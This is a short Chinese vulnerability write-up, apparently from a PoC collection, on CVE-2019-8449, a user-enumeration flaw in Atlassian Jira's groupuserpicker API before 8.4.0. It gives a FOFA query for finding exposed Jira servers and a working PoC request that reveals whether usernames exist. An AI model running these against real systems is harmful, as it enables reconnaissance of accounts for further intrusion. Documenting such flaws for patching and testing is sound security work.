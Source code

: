 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241426482.png)

当用户不存在时

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241427885.png)